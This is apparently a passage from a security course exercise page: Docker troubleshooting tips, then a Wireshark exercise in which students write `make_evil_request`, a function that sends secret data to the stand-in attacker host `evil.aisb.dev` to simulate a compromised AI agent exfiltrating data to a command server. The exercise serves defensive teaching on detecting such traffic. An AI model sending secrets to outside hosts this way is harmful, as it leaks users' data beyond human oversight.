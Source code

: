 ### Troubleshooting
Today's setup is a bit more complicated. If you run into issues, try some of these steps:
- If you have problems installing the `docker-in-docker` feature in your devcontainer, comment out the respective line (`"ghcr.io/devcontainers/features/docker-in-docker:1": {}`) in the [devcontainer.json](../.devcontainer/devcontainer.json) file. Without it, you won't be able to run docker commands inside the devcontainer, but you should still be able to run them from the host machine (e.g., outside of VS Code).
- Stop your containers with Ctrl+C (if they are in foreground) or `docker-compose down` (if they are in background), and start them again with container rebuild: `docker-compose up --build`.
- Make sure you have the latest version of the repository pulled. Try "Dev Containers: Rebuild and Reopen in Container" action in VS Code.
- If you cannot start the containers with `docker-compose up` inside the Dev Container, try running it from the host machine instead. You can do this by opening a terminal in the `w1d2` directory outside of VS Code and running `docker compose up --build`.

### Side-note: Pair programming
<details><summary>
You had an opportunity to pair up with a partner on your first day. Now that you have tried what it feels like, you can expand this section for a few tips that can make it easier for you.</summary></details>


## 1️⃣ Network Traffic Analysis with Wireshark


### Exercise 1: Making HTTP Requests to External Servers

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵⚪⚪⚪
>
> You should spend up to ~5 minutes on this exercise.

In this exercise, you'll implement an AI agent that attempts to communicate with an external server. This simulates a scenario where a compromised or malicious AI agent tries to exfiltrate data or receive commands from an attacker-controlled server.

The agent will start with a simple HTTP GET request to `evil.aisb.dev`. In later exercises, we'll explore how defenders can detect and block these communications, and how attackers might try to evade detection.

<details><summary>Background: Why AI Agents Might Make External Requests</summary></details>

Implement the `make_evil_request` function that sends a GET request to the evil server with a secret message. This will go into the **`w1d2_answers_agent.py` file**.


```python


import base64
import time

from typing import Optional, Dict, Any
from unittest.mock import patch, MagicMock
import requests


def make_evil_request(secret_data: str) -> Optional[str]:
    """
    Send a GET request to evil.aisb.dev with secret data.

    This simulates an AI agent attempting to communicate with an external C2 server.
    The secret data is sent as a query parameter.

    Args:
        secret_data: The secret information to exfiltrate
```